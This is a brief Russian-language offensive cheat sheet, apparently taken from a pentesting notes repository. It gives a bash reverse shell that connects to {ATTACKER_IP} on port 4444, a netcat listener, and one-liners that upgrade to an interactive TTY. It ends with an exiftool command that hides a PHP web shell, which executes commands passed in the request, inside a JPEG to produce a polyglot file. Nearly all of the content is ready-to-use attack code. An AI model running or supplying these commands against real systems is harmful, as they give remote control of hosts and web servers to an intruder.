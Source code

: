 ### Reverse Shell Generator

[revshells.com](https://www.revshells.com)

Проброс шелла:

```
bash -c "bash -i >& /dev/tcp/{ATTACKER_IP}/4444 0>&1"
```

Слушать:

```
sudo nc -lvnp 4444
```

Переход на удобный шелл:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```
/usr/bin/script -qc /bin/bash /dev/null
```

Полиглотный шелл:

```
exiftool -DocumentName="<h1>chiara<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" <jpeg-file-name>.jpeg -o polyglot.php
```